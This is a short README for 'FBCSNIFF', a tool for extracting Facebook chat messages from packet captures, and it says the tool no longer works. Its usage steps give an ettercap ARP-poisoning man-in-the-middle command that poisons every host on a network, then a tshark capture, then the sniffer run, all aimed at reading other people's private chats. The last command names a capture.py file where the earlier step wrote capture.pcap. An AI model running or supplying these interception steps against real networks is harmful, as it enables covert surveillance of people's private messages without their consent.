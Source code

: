 # FBCSNIFF: Facebook Chat Sniffer

> Extract facebook chat messages from a pcap file

## THIS DOES NOT WORK ANYMORE!

### Deps:

``` sh
$ sudo apt-get install python-dpkt
```

### Usage Example:

I'm using ettercap and tshark

``` sh
$ sudo apt-get install ettercap tshark
```

Start a MITM attach using ettercap **(this will poison EVERYONE!)**:

``` sh
$ sudo ettercap -T -M arp -i <your interface> // // -p auto_add
```

Start tshark capture:

``` sh
sudo -i
tshark -i <your interface> -w /tmp/capture.pcap
```

Start pulling messages out of the capture file:

``` sh
sudo ./fbcsniff.py -l -c /tmp/capture.py
```



